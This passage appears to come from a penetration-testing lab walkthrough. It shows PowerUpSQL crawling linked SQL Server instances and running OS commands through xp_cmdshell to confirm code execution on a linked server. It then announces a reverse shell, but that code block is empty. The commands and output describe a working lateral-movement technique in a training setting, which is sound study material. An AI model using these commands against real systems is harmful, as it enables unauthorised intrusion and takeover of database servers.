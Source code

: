 ```powershell
VERBOSE:  - Links on this server:


Version     : SQL Server 2017
Instance    : US-MSSQL
CustomQuery :
Sysadmin    : 0
Path        : {US-MSSQL}
User        : US\studentuser57
Links       : {192.168.23.25}

Version     : SQL Server 2017
Instance    : DB-SQLPROD
CustomQuery :
Sysadmin    : 1
Path        : {US-MSSQL, 192.168.23.25}
User        : dbuser
Links       : {DB-SQLSRV}

Version     : SQL Server 2017
Instance    : DB-SQLSRV
CustomQuery :
Sysadmin    : 1
Path        : {US-MSSQL, 192.168.23.25, DB-SQLSRV}
User        : sa
Links       :
```
- We can see the following:
	-  `US-MSSQL` has a database link with `DB-SQLPROD` as `dbuser`
	-  `DB-SQLPROD` has a database link with `DB-SQLSRV` as `sa`
- Let' check for command execution privileges on the linked databases through `xp_cmdshell`.
```powersell
PS C:\Auditor> Get-SQLServerLinkCrawl -Instance us-mssql.us.techcorp.local -Query "exec master..xp_cmdshell 'whoami'"


Version     : SQL Server 2017
Instance    : US-MSSQL
CustomQuery :
Sysadmin    : 0
Path        : {US-MSSQL}
User        : US\studentuser57
Links       : {192.168.23.25}

Version     : SQL Server 2017
Instance    : DB-SQLPROD
CustomQuery : {nt service\mssqlserver, }
Sysadmin    : 1
Path        : {US-MSSQL, 192.168.23.25}
User        : dbuser
Links       : {DB-SQLSRV}

Version     : SQL Server 2017
Instance    : DB-SQLSRV
CustomQuery :
Sysadmin    : 1
Path        : {US-MSSQL, 192.168.23.25, DB-SQLSRV}
User        : sa
Links       :
```
- We can see that we have command execution privileges on `DB-SQLPROD` as `nt service\mssqlserver`, which is a service account. We can leverage that to execute a PowerShell reverse shell on that server. We will host the needed files on HFS and start a listener on our `STUDENT57`.
```powershell
```